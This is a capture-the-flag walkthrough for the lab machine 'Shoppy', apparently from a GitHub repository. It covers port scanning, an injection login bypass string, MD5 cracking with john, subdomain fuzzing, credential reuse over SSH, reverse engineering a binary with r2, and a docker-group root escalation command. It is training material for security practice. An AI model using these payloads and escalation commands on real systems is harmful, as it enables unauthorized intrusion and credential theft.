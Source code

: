 **Target: 10.10.11.180   Shoppy**

**Initial Access:**\
nmap -Pn 10.10.11.180 --min-rate=5000 -p- |grep open|awk -F '/' '{print $1}'|tr '\n' ','\
Output returns open ports: 22,80,9093\
Enumerating these ports further with nmap:	\
nmap -Pn 10.10.11.180 --min-rate=5000 -p 22,80,9093 -sC -sV -oN nmap.shoppy 
<image src= "https://user-images.githubusercontent.com/93153300/198384322-4abd0691-d1ba-480c-83bf-6f638330341c.png">
 
nmap shows port 80 tried to redirect to http://shoppy.htb.   In order for that to work, add into /etc/hosts: 10.10.11.180  shoppy.htb.

Navigating to the site or port 80 shows nothing of interest.  \
dirsearch -r -u http://10.10.11.180 -e txt,php,html -f -o dsearch.80 → Output reveals directory:  /login

Navigate to /login.  Trying default credentials does not work.  Trying sql injection to bypass login works on username parameter with: admin'||''==='	 	After bypassing the login with the sql injection, we are taken to /admin directory, and it shows:		
![image](https://user-images.githubusercontent.com/93153300/198384390-37a7c2bd-23b1-4edb-9cf2-e98cf5f79e00.png)

 
Click on “search for users” redirects to /search-users directory showing:
![image](https://user-images.githubusercontent.com/93153300/198384431-7acaf968-1d1f-439d-904b-69dcd92c2ad0.png)

Re-enter same sql injection as before: admin'||''==='	      .  After entering that a new “Download export” icon appears on the page: 
![image](https://user-images.githubusercontent.com/93153300/198384528-b51f824d-ce28-441c-b187-cdb2b1230de6.png)
 
Click on “Download export” takes us to a new directory http://shoppy.htb/exports/export-search.json. More importantly, it reveals usernames and hashed passwords: 
![image](https://user-images.githubusercontent.com/93153300/198384579-873fae10-da1e-4445-a5bc-52a2a5b9b8d3.png)

Use john to crack the hash:\										
john hash --wordlist=/usr/share/wordlists/rockyou.txt –format=raw-md5	→ cracked to: remembermethisway

Using these credentials for ssh fails.  Use wfuzz to search for subdomains:\			
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u "http://shoppy.htb/" -H "Host: FUZZ.shoppy.htb" --hl 7

wfuzz found one subdomain: mattermost. \ 							
Go to /etc/hosts and add that in:  10.10.11.180   mattermost.shoppy.htb\					
Navigate to http://mattermost.shoppy.htb → redirects to /login directory login page.  
![image](https://user-images.githubusercontent.com/93153300/198384606-7ee074ef-921d-4e17-a76a-0c6ce95ce604.png)
 
Enter josh’s credentials found before: username josh, password remembermethisway.  It works, and it logs in.   Looking around on the website, the left side panel has different pages to navigate to.  Clicking on “Deploy Machine” and reading the chat we find credentials:
![image](https://user-images.githubusercontent.com/93153300/198384641-f59df065-7c28-4469-9cf1-b5200ad36a77.png)

Username: jaeger password: Sh0ppyBest@pp! 

ssh jaeger@shoppy.htb → when prompted for password enter  Sh0ppyBest@pp!\
It works, we have shell as jaeger.  Open /home/jaeger/user.txt to get the flag.				
__________________________________________________________________________________
**Lateral Movement:**\
looking at /home directory shows user jaeger and user deploy.\
command sudo -l shows: User jaeger may run the following commands on shoppy: (deploy) /home/deploy/password-manager							

Run this → sudo -u deploy /home/deploy/password-manager   				
![image](https://user-images.githubusercontent.com/93153300/198384678-1cb09fae-9a94-4d99-823c-15eaea6a3783.png)

Running this password-manager file it asks us to enter a password.  If the wrong password is entered, as shown above, then it denies access.  Download this file, password-manager, to reverse engineer it. Reverse engineering this file might reveal the password.  After downloading, use r2 to reverse engineer this with the following commands:\
r2 password-manager  → aaa  → afl → pdf @main.\
Looking over the output r2 shows on password-manager, we find the password, Sample.  
![image](https://user-images.githubusercontent.com/93153300/198384704-040454e3-cda7-4b14-861a-924af4137a65.png)

Going back to the shell on jaeger, run the sudo command once again:  sudo -u deploy /home/deploy/password-manager.  When prompted for password enter “Sample”.  It works, and new credetinals are shown: 				
![image](https://user-images.githubusercontent.com/93153300/198384728-527a7223-3aeb-4469-bfff-0f5268a83c11.png)
 
Try ssh as user deploy.\
ssh deploy@shoppy.htb  → when prompted, enter the password:  Deploying@pp!\
We have shell as deploy.  					
________________________________________________________________________
**Privilege Escalation:**\
Running command: id   → shows that the user deploy is in the docker group.  Use this to escalate to root with command:\
docker run -v /:/mnt --rm -it alpine chroot /mnt sh.\
We have shell as root, open /root/root.txt to get the flag.
![image](https://user-images.githubusercontent.com/93153300/198384823-ebdca9f0-ef40-4af3-82dd-05bb2f126881.png)
